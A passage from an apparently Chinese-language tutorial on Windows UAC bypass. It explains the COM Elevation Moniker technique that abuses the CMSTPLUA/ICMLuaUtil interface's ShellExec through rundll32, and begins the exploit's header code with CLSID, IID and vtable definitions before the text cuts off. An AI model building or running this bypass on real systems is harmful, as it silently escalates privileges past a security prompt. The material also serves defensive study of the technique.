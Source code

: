 这里介绍个很容易懂，代码也很简洁的方法：

> COM提升名称（COM Elevation Moniker）技术允许运行在用户账户控制下的应用程序用提升权限的方法来激活COM类，以提升COM接口权限。同时，ICMLuaUtil接口提供了ShellExec方法来执行命令，创建指定进程。因此，我们可以利用COM提升名称来对ICMLuaUtil接口提权，之后通过接口调用ShellExec方法来创建指定进程，实现BypassUAC。

但是，执行这段代码的必须是可信程序（指直接获取管理员权限，而不触发UAC弹框的白名单程序），才能实现提权（不弹出上图中的那个对话框）。可信程序有rundll32.exe，lsass.exe，svchost.exe等等，这些也是恶意软件经常滥用的程序。当然计算器，记事本这些也是白名单程序，不过没啥可利用的地方。

刚好rundll32就可以执行32位dll文件里的函数，所以可以用它来执行提权的代码。

rundll32执行的函数，如果没有参数，则可以直接定义无参函数；如果有参数，则必须按照如下的格式来定义：

```
void CALLBACK FuncName(HWND hWnd, HINSTANCE hInstance, LPSTR lpszCmdLine, int iCmdShow);
```

第三个参数lpszCmdLine就是传给函数的命令行参数。

BypassUAC.h

```c++
#pragma once


#include <Windows.h>
#include <objbase.h>
#include <strsafe.h>


#define CLSID_CMSTPLUA                     L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}"
#define IID_ICMLuaUtil                     L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}"


typedef interface ICMLuaUtil ICMLuaUtil;

typedef struct ICMLuaUtilVtbl {

	BEGIN_INTERFACE

		HRESULT(STDMETHODCALLTYPE *QueryInterface)(
			__RPC__in ICMLuaUtil * This,
			__RPC__in REFIID riid,
			_COM_Outptr_  void **ppvObject);

	ULONG(STDMETHODCALLTYPE *AddRef)(
		__RPC__in ICMLuaUtil * This);

	ULONG(STDMETHODCALLTYPE *Release)(
		__RPC__in ICMLuaUtil * This);

	HRESULT(STDMETHODCALLTYPE *Method1)(
		__RPC__in ICMLuaUtil * This);

	HRESULT(STDMETHODCALLTYPE *Method2)(
		__RPC__in ICMLuaUtil * This);

	HRESULT(STDMETHODCALLTYPE *Method3)(
		__RPC__in ICMLuaUtil * This);

	HRESULT(STDMETHODCALLTYPE *Method4)(
		__RPC__in ICMLuaUtil * This);

	HRESULT(STDMETHODCALLTYPE *Method5)(
		__RPC__in ICMLuaUtil * This);

	HRESULT(STDMETHODCALLTYPE *Method6)(
		__RPC__in ICMLuaUtil * This);

```